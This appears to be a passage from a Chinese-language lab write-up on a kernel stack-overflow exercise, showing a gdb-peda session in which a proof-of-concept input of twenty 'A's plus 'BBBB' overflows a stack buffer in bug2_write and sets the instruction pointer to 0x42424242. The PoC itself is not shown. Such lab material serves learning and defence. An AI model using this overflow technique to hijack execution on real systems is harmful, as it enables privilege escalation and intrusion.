 ```bash
```

运行 poc 之后

```bash

Breakpoint 1, bug2_write (file=0xc733c200, buf=0xbfb0e0a4 'A' <repeats 20 times>, "BBBB", len=0x18)
    at /home/user/Desktop/stack_smashing/stack_smashing.c:6
6	in /home/user/Desktop/stack_smashing/stack_smashing.c
gdb-peda$ x/20i $pc
=> 0xc8815000 <bug2_write>:	push   ebp
   0xc8815001 <bug2_write+1>:	mov    ebp,esp
   0xc8815003 <bug2_write+3>:	sub    esp,0x10
   0xc8815006 <bug2_write+6>:	mov    DWORD PTR [ebp-0x8],esi
   0xc8815009 <bug2_write+9>:	mov    DWORD PTR [ebp-0x4],edi
   0xc881500c <bug2_write+12>:	nop    DWORD PTR [eax+eax*1+0x0]
   0xc8815011 <bug2_write+17>:	mov    eax,ecx
   0xc8815013 <bug2_write+19>:	mov    esi,edx
   0xc8815015 <bug2_write+21>:	shr    ecx,0x2
   0xc8815018 <bug2_write+24>:	lea    edi,[ebp-0x10]
   0xc881501b <bug2_write+27>:	rep movs DWORD PTR es:[edi],DWORD PTR ds:[esi]
   0xc881501d <bug2_write+29>:	mov    ecx,eax
   0xc881501f <bug2_write+31>:	and    ecx,0x3
   0xc8815022 <bug2_write+34>:	je     0xc8815026 <bug2_write+38>
   0xc8815024 <bug2_write+36>:	rep movs BYTE PTR es:[edi],BYTE PTR ds:[esi]
   0xc8815026 <bug2_write+38>:	mov    esi,DWORD PTR [ebp-0x8]
   0xc8815029 <bug2_write+41>:	mov    edi,DWORD PTR [ebp-0x4]
   0xc881502c <bug2_write+44>:	mov    esp,ebp
   0xc881502e <bug2_write+46>:	pop    ebp
   0xc881502f <bug2_write+47>:	ret    
gdb-peda$ b *0xc881502f
Breakpoint 2 at 0xc881502f: file /home/user/Desktop/stack_smashing/stack_smashing.c, line 10.
gdb-peda$ c
Continuing.
Warning: not running or target is remote

Breakpoint 2, 0xc881502f in bug2_write (file=<optimized out>, buf=0xbfb0e0a4 'A' <repeats 20 times>, "BBBB", len=<optimized out>)
    at /home/user/Desktop/stack_smashing/stack_smashing.c:10
10	in /home/user/Desktop/stack_smashing/stack_smashing.c
gdb-peda$ x/2i $pc
=> 0xc881502f <bug2_write+47>:	ret    
   0xc8815030:	push   ebp
gdb-peda$ x/4xw $esp
0xc7287f28:	0x42424242	0x00000000	0x00000018	0xbfb0e0a4
gdb-peda$ ni
Warning: not running or target is remote
0x42424242 in ?? ()

```

成功劫持 `eip`。
